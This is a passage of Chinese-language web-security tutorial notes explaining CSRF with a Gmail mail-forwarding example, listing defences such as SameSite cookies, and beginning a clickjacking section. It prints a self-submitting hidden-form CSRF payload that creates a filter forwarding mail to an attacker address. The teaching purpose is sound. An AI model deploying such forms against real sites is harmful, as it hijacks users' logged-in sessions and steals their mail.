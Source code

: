 请看下面的故事

- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了

但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();

    // PS：有些是 post 请求，有些是 get 请求
    //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

邮件经常用来接收验证码，这是很危险的事情。当然了，后来 Gmail 修复了这个漏洞。但新的故事仍在不断发生中。

CSRF 的过程：

- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

CSRF 的预防：

- 严格的跨域请求限制
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

## 7.3点击劫持 Clickjacking

小明被诱导到一个钓鱼网站，点击了一个按钮，其实已经关注了慕课网双越老师。因为他可能已经登录了慕课网。这可以是关注，也可以是付款转账等其他危险操作。

![](./img/%E7%82%B9%E5%87%BB%E5%8A%AB%E6%8C%81.png)
